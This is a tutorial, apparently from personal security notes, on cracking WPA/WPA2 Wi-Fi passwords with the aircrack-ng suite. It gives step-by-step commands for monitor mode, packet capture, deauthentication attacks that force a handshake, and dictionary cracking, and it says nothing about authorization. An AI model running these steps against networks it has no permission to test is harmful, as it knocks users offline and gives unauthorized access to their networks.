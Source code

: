 # Password Cracking w/ aircrack

## TLDR Commands

```bash
sudo apt-get install aircrack-ng #installs the aircrack suite
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
sudo airodump-ng wlan0mon #see local BSSIDs/ESSIDs
#run following on one terminal
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
#run following on another terminal and wait for handshake capture
sudo aireplay-ng --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
#after capture
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

## Setup

When it comes to password cracking, there are two main components that can potentially prevent you from cracking the password. This is not being able to capture the 4-way handshake, as well as not having the actual password in your wordlist. This guide will walk you though how to crack WPA/WPA2 passwords, as long as you have the two aforementioned items. I will be doing these cracks using the Kali Linux VMware OS. In order to intercept packets and crack passwords, we will need a network adapter. I have bought [this one](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2/) from Amazon:

![](../.gitbook/assets/image%20%2842%29.png)

Next you will have to install the software for cracking the password. We will be using the aircrack-ng suite for this. In order to download this, run the following command:

```c
sudo apt-get install aircrack-ng
```

This will download aircrack-ng, as well as the dependencies for air-crack-ng.

## Intercepting Passwords

In order to crack passwords, we will first have to capture the 4-way handshake. This allows us to then crack the capture \(.cap\) file in order to find out the password. In order to do this, we have to run the following command:

```bash
sudo airmon-ng start wlan0 #assuming wlan0 is the wlan of the wireless card
```

This command will initialize our wireless card to be in monitor mode. We can then use it to intercept traffic. The next command we will use will allow us to see the nearby networks and see their BSSIDs.

```bash
sudo airodump-ng wlan0mon #same assumption as above
```

We can now see the local networks, alongside their BSSIDs. I usually let the command run for 10-30 seconds, which gives it enough time to get together a good list of local networks. We then have to capture the handshake. For this to happen, we will have to have two terminal windows open simultaneously. On the first terminal we will run the following command:

```bash
sudo airodump-ng -c <channel_number_of_network> --bssid <BSSID of network> -w <output location of captured files> wlan0mon
```

On the other terminal, we will run:

```bash
sudo aireplay --deauth <count of deauthentication packets> -a <BSSID of network> wlan0mon
```

This part gets a bit complicated. We have to run the "aireplay" command with a count that will allow us to get a handshake capture. For me, 20 works. The capture will be seen in the terminal running "airodump-ng". If nothing has changed in the "airodump-ng" terminal, then the handshake has not been captured yet. When the handshake is captured, you can go to the "Cracking Passwords" section of this tutorial.

## Cracking Passwords

In order to crack passwords, there are 2 main methods to do it: using aircrack-ng to crack the password file, or using a password cracking software such as John the ripper or hashcat. I will be using the aircrack-ng command to crack the passwords. As I mentioned earlier, the only way you will be able to crack the password are based on two conditions: you have a 4-way handshake captured in a .cap file, and you have the password to the wifi in the dictionary you are using. I would reccomend building your own wordlist. This can help you have a dictionary which has 8+ characters \(which is the minimum password size\). I would look at the following links to make your own list. I use a \(somewhat\) combination of all of the following links:

* [https://github.com/kennyn510/wpa2-wordlists](https://github.com/kennyn510/wpa2-wordlists)
* [https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA](https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA)
* [https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md](https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/WPA-Length/Real-Password-WPA-MegaLinks.md)

You could also make your own password list using the "crunch" command on Kali or Parrot OS.

To crack the password, using the aircrack-ng command, we will run the following command:

```bash
sudo aircrack-ng <location of .cap file> -w <dictionary or wordlist>
```

### Resources

* [https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks\#wifi-basic-commands](https://book.hacktricks.xyz/pentesting/pentesting-network/wifi-attacks#wifi-basic-commands)
* [https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46](https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46)
* [https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9](https://medium.com/@TheEyeOfCyberBuckeyeSecurity/how-to-crack-wpa-wpa2-wi-fi-passwords-using-aircrack-ng-8cb7161abcf9)
* \(MacOS aircrack setup\) [https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)


